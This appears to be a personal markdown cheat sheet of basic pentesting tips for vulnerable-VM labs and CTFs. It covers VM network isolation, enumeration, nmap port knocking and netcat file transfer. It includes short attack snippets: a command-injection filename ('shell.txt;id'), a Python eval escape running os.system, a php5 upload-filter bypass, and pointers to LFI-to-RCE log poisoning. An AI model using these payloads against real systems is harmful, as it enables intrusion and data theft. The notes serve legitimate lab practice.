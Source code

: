 # Basic pentesting

I am not a professional pentester or something these are just the things that I have learned while doing Vulnerable VMs from websites like [Vulnhub](https://www.vulnhub.com/), [HackTheBox](https://www.hackthebox.eu/), [TryHackMe](https://tryhackme.com/) etc.

### General

* If you have downloaded the VM from Website like Vulnhub or any other website then make sure you run it in `host-only` mode. Even though Vulnhub can be super trusted but still it's good to be paranoid.
    - Most of the VM with `bridged` as their default network setting.
    - Also if you want to be super paranoid then go for NAT setting but I've had issues with some VMs in `NAT` network setting.

* Enumeration is the Key but only till a certain level. Lot of times the way is too guessy, too CTF type and that point `enumeration` doesn't help at all. So if you have done the basics of enumeration like for HTTP service fuzzing, dirsearch etc then don't worry it's totally okay to ask for a damn hint.

### Normal notes

* Run always on host-only
* Always take a good look of what you've found
* Change host timezone
    - `echo "Asia/kolkata" > /etc/timezone`
    - `dpkg-reconfigure -f noninteractive tzdata`
* Always run dirsearch with extensions
* If you find set of 3 numbers possible options is port knocking
* Port knocking with nmap
    - `for x in 066 666 3432; do nmap -Pn --max-retries 0 -p $x 10.10.10.10; done`
* php file type can be bypassed by php5
* Transfer with ncat
    - `nc -q1 -lvp 1234 < file` - on victim machine
    - `nc IP 1234> file` - on attackers machine
* `sudo vmware-modconfig --console --install-all`
* If in a file upload the output is shown meaning it's processing the upload
    - exploit it with command injection in filename like "shell.txt;id"
* use "dig axfr somedomain" to actually find other zone tranfser
    - checkout tempus fugit writeup
* If enum/sudo doesn't do any good.....check for writeable dirs
* Change Static IP
    - `sudo ifconfig vmnet1 10.10.10.11 netmask 255.255.255.0`
* VMware /dev/vmmon not loaded
    - `sudo vmware-modconfig --console --install-all`
* LFI to RCE via SSH log poisoning
    - https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/
* If cracking password for kdbx takes longer time then try finding a key file for it.
* for git repos always check out the git logs
* To escape eval in python
    - https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html
    - `eval("__import__('os').system('ls')#")``
